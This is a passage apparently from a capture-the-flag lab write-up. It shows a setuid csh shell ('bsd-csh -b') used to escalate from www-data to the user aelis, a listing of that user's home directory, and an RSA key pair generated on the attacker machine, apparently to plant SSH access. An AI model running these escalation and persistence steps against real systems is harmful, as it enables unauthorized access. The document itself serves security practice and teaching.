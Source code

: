 ![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`/usr/bin/bsd-csh -b`

![Victim: aelis](https://img.shields.io/badge/Victim-aelis-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
aelis ←
```

`id`:
```
uid=33(www-data) gid=33(www-data) euid=1000(aelis) egid=1000(aelis) groups=1000(aelis),33(www-data)
```

`cd /home/aelis`

`ls -alps`:
```
total 12168
    4 drwxr-x--- 5 aelis aelis     4096 Jan 11  2023 ./
    4 drwxr-xr-x 3 root  root      4096 Jan 11  2023 ../
    4 -rw------- 1 aelis aelis       49 Jan 11  2023 .Xauthority
    0 lrwxrwxrwx 1 aelis aelis        9 Jan 11  2023 .bash_history -> /dev/null
    4 -rw-r--r-- 1 aelis aelis      220 Jan  6  2022 .bash_logout
    4 -rw-r--r-- 1 aelis aelis     3771 Jan  6  2022 .bashrc
    4 drwx------ 2 aelis aelis     4096 Jan 11  2023 .cache/
    4 drwxrwxr-x 3 aelis aelis     4096 Jan 11  2023 .local/
    4 -rw-r--r-- 1 aelis aelis      807 Jan  6  2022 .profile
    4 drwx------ 2 aelis aelis     4096 Jan 11  2023 .ssh/ ←
    0 -rw-r--r-- 1 aelis aelis        0 Jan 11  2023 .sudo_as_admin_successful
12132 -rw-r--r-- 1 aelis aelis 12421945 Jan 11  2023 php-fos-db.zip
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`mkdir ./aelis && cd ./aelis`

`ssh-keygen -t rsa -b 4096 -f ./aelis_rsa`:
```
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./aelis_rsa
Your public key has been saved in ./aelis_rsa.pub
The key fingerprint is:
SHA256:TJ0ljx4RXDKv00ukQKIOl/14EI/H1cZM5EBuGeZjAww kali@kali-vm
The key's randomart image is:
+---[RSA 4096]----+
|      Eooo%O=    |
|     + B.B./=    |
|  . + + * &.=    |
|   +   B = O     |
|    . . S = o    |
|       .   o .   |
|            .    |
|                 |
|                 |
+----[SHA256]-----+
```
